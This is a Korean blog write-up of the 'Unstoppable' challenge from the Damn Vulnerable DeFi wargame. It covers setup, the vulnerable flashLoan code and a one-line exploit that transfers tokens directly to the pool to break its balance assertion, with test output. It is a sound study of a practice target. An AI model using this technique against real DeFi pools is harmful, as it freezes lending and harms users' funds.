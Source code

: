 ```yaml
---
title: "DamnVulnerableDefi Unstoppable 풀이"
author: IceBear
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - Unstoppable

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


[Damn Vulnerable DeFi]는 DeFi Smart Contract를 대상으로 하는 Wargame 사이트이다.
![Damn Vulnerable DeFi](/assets/images_post/2022-01-25-DamnVulnerableDefi-Unstoppable/damnvulnerabledefi.png)
해당 문제들을 풀어보면서 DeFi Smart Contract에서 발생하는 취약점 유형을 학습할 수 있다.
먼저 Wargame 문제 풀이를 위한 환경설정을 정리하고, 1번 챌린지인 Unstoppable을 풀어보도록 한다. 

## 환경설정

먼저 문제 Repository를 Clone 한다.
~~~
git clone https://github.com/OpenZeppelin/damn-vulnerable-defi.git
~~~

그리고 자바스크립트 패키지 매니저인 yarn을 설치한다.(여기서는 Mac 기준)
~~~
brew install yarn
~~~

그 뒤 yarn을 통해 필요한 패키지들을 설치한다.
~~~
yarn install
~~~

설치가 정상적으로 잘 되면 damn-vulnerable-defi 폴더로 이동하여 npm 명령을 통해 사용가능한 챌린지들을 확인할 수 있다.
~~~
➜  damn-vulnerable-defi ✗ npm run
Lifecycle scripts included in undefined:
  test
    npm run compile && npx mocha --timeout 5000 --exit --recursive test

available via `npm run-script`:
  unstoppable
    npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js
  truster
    npm run compile && npx mocha --timeout 5000 --exit test/truster/truster.challenge.js
  naive-receiver
    npm run compile && npx mocha --timeout 5000 --exit test/naive-receiver/naive-receiver.challenge.js
  side-entrance
    npm run compile && npx mocha --timeout 5000 --exit test/side-entrance/side-entrance.challenge.js
  the-rewarder
    npm run compile && npx mocha --timeout 5000 --exit test/the-rewarder/the-rewarder.challenge.js
  selfie
    npm run compile && npx mocha --timeout 5000 --exit test/selfie/selfie.challenge.js
  compromised
    npm run compile && npx mocha --timeout 5000 --exit test/compromised/compromised.challenge.js
  puppet
    npm run compile && npx mocha --timeout 5000 --exit test/puppet/puppet.challenge.js
  compile
    npx buidler compile
~~~

Wargame은 [OpenZeppelin Test Helper]를 통해 로컬에서 테스트할 수 있다.
각 문제에 대한 Exploit 코드는 test 폴더 밑 해당 문제 폴더에 존재하는 challenge.js 파일내에 추가하면 된다.
Unstoppable 문제의 js 파일을 보면 다음과 같이 친절하게 Exploit을 작성할 부분을 정의해두었다.
~~~
...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
});
...
~~~
그리고 npm 명령을 통해 Exploit을 실행할 수 있다.
~~~
npm run unstoppable
~~~

## Unstoppable 풀이

Contract 파일인 UnstoppableLender.sol 내 flashloan 함수는 다음과 같다.
~~~
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);
        
  damnValuableToken.transfer(msg.sender, borrowAmount);
        
  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
~~~

코드 중간에 assert로 poolBalance와 balanceBefore가 같음을 확인한다.
balanceBefore는 바로 위에서 해당 주소의 balance를 가지고 옴을 알 수 있다.
그에 반해 poolBalance는 전역 변수로 depositTokens 함수를 통해서만 추가될 수 있다.
~~~
...
uint256 public poolBalance;
...
function depositTokens(uint256 amount) external nonReentrant {
  require(amount > 0, "Must deposit at least one token");
  // Transfer token from sender. Sender must have first approved them.
  damnValuableToken.transferFrom(msg.sender, address(this), amount);
  poolBalance = poolBalance + amount;
}
...
~~~

하지만 ERC20 표준에 따라 transfer 함수를 통해 해당 contract에 token을 전송할 수 있다.
그럴 경우 balanceBefore 값이 증가하게 되고, 따라서 poolBalance 값과 balanceBefore 값이 불일치하게 된다.
이를 위한 js 파일내 exploit 코드는 다음과 같다.
~~~
...
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    await this.token.transfer(this.pool.address, ether('1'), {from: attacker });
    });
...
~~~

이를 npm으로 실행하면 다음 결과를 얻는다.
~~~
➜  damn-vulnerable-defi ✗ npm run unstoppable

> unstoppable
> npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js


> compile
> npx buidler compile

All contracts have already been compiled, skipping compilation.


  [Challenge] Unstoppable
    ✓ Exploit (50ms)


  1 passing (757ms)
~~~

## 마치며

DeFi에서 사용하는 Pool을 관리하는데 있어 Balance가 다양한 방식으로 조절될 수 있다.
특히 여러 체인을 연계하는 서비스의 경우 자체적으로 각 Token에 대한 Balance를 가지고 관리하는 경우 이러한 문제가 발생할 수 있다.


[Damn Vulnerable DeFi]: https://www.damnvulnerabledefi.xyz 
[OpenZeppelin Test Helper]: https://docs.openzeppelin.com/test-helpers/0.5/
